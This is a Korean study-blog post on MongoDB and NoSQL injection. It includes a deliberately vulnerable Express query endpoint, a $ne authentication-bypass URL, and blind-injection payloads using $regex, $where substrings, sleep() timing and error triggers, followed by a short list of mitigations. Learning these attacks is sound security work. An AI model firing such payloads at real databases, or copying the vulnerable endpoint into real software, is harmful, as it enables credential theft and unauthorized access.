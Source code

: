 ```yaml
---
title: "[2025-07-21] MongoDB"
excerpt: "MongoDB 개념 정리"

categories:
  - Justice
tags:
  - [SQL Injection, NoSQL Injection]

permalink: /Justice/[2025-07-21] MongoDB/

toc: true
toc_sticky: true

date: 2025-07-21
last_modified_at: 2025-07-21
---
```


## 🦥 본문

## MongoDB

NoSQL 데이터베이스 중 하나로 JSON 형식의 문서로 데이터를 저장하고 관리하는 문서 지향 데이터베이스.

### 특징

1. 스키마가 존재하지 않아 가 테이블에 특별한 정의를 하지 않아도 된다.
2. JSON 형식으로 쿼리문을 작성할 수 있다.
3. `_id` 필드가 기본키 역할을 한다.

```sql
> db.user.insertOne({uid: 'admin', upw: 'secretpassword'})
{ acknowledged: true, insertedId: ObjectId("5e71d395b050a2511caa827d")}
> db.user.find({uid: 'admin'})
[{ "_id" : ObjectId("5e71d395b050a2511caa827d"), "uid" : "admin", "upw" : "secretpassword" }]
```

### 연산자

- 비교 연산자

| Name | Description |
| --- | --- |
| `$eq` | 지정된 값과 같은 값을 찾습니다. (equal) |
| `$gt` | 지정된 값보다 큰 값을 찾습니다. (greater than) |
| `$gte` | 지정된 값보다 크거나 같은 값을 찾습니다. (greater than equal) |
| `$in` | 배열 안의 값들과 일치하는 값을 찾습니다. (in) |
| `$lt` | 지정된 값보다 작은 값을 찾습니다. (less than) |
| `$lte` | 지정된 값보다 작거나 같은 값을 찾습니다. (less than equal) |
| `$ne` | 지정된 값과 |
- 논리연산자

| Name | Description |
| --- | --- |
| `$and` | 논리적 AND, 각각의 쿼리를 모두 만족하는 문서가 반환됩니다. |
| `$not` | 쿼리 식의 효과를 반전시킵니다. 쿼리 식과 일치하지 않는 문서를 반환합니다. |
| `$nor` | 논리적 NOR, 각각의 쿼리를 모두 만족하지 않는 문서가 반환됩니다. |
| `$or` | 논리적 OR, 각각의 쿼리 중 하나 이상 만족하는 문서가 반환됩니다. |
- Element 연산자

| Name | Description |
| --- | --- |
| `$exists` | 지정된 필드가 있는 문서를 찾습니다. |
| `$type` | 지정된 필드가 지정된 유형인 문서를 선택합니다. |
- Evaluation 연산자

| Name | Description |
| --- | --- |
| `$expr` | 쿼리 언어 내에서 집계 식을 사용할 수 있습니다. |
| `$jsonSchema` | 주어진 JSON 스키마에 대해 문서를 검증합니다. |
| `$mod` | 필드 값에 대해 mod 연산을 수행하고 지정된 결과를 가진 문서를 선택합니다. |
| `$regex` | 지정한 정규식과 일치하는 문서를 선택합니다. |
| `$text` | 지정한 텍스트를 검색합니다. |
| `$where` | 지정한 자바스크립트 식을 만족하는 문서와 일치합니다. |

### MongoDB Injection

사용자 입력값이 MongoDB 쿼리 내에 그대로 삽입되어, 인증 우회, 데이터 노출, 조작 등 악의적인 동작을 유발하는 공격 기법 

- 취약 코드
    
    ```sql
    const express = require('express');
    const app = express();
    const mongoose = require('mongoose');
    const db = mongoose.connection;
    mongoose.connect('mongodb://localhost:27017/', { useNewUrlParser: true, useUnifiedTopology: true });
    app.get('/query', function(req,res) {
        db.collection('user').find({
            'uid': req.query.uid,
            'upw': req.query.upw
        }).toArray(function(err, result) {
            if (err) throw err;
            res.send(result);
      });
    });
    const server = app.listen(3000, function(){
        console.log('app.listen');
    });
    ```
    
    - 이용자가 입력한 uid와 upw에 해당하는 값을 데이터베이스에서 조회하는 예제 코드
    - 공격 코드를 통해 관리자 계정을 조회할 수 있다.
    
    ```sql
    http://localhost:3000/query?uid[$ne]=a&upw[$ne]=a
    => [{"_id":"5ebb81732b75911dbcad8a19","uid":"admin","upw":"secretpassword"}]
    ```
    

### MongoDB Blind Injection

실행 결과가 애플리케이션에 출력되지 않을 때 응답 내용 만으로 정보를 추측하는 공격 방법.

- `$regex`
    
    ```sql
    > db.user.find({upw: {$regex: "^a"}})
    > db.user.find({upw: {$regex: "^b"}})
    > db.user.find({upw: {$regex: "^c"}})
    ...
    > db.user.find({upw: {$regex: "^g"}})
    { "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
    ```
    
- `$where` : 필드 안에서는 사용 불가
    
    ```sql
    > db.user.find({$where:"return 1==1"})
    { "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
    > db.user.find({uid:{$where:"return 1==1"}})
    error: {
    	"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
    	"code" : 17287
    }
    
    //substring을 사용하여 Blind SQli
    > db.user.find({$where: "this.upw.substring(0,1)=='a'"})
    > db.user.find({$where: "this.upw.substring(0,1)=='b'"})
    > db.user.find({$where: "this.upw.substring(0,1)=='c'"})
    ...
    > db.user.find({$where: "this.upw.substring(0,1)=='g'"})
    { "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
    
    //Time Based Injection. 서버에서 아래와 같은 코드로 조회할 때,
    db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
    //sleep 함수를 사용하여 공격 가능 
    /?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
    /?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
    /?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
    ...
    /?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
    => 시간 지연 발생.
    
    //Error Based Injection. 아래와 같이 문법 에러를 발생하는 asdf를 삽입하여 앞선 비교식이 참일 경우 에러 발생
    > db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
    error: {
    	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
    	"code" : 16722
    }
    // this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
    > db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
    // this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
    
    ```

### 대응 방법

1. 쿼리 연산자 문자열 차단
2. 타입 강제화 : 사용자의 입력을 문자열로 강제 변환
3. ORM 사용
4. WAF을 통한 필터링   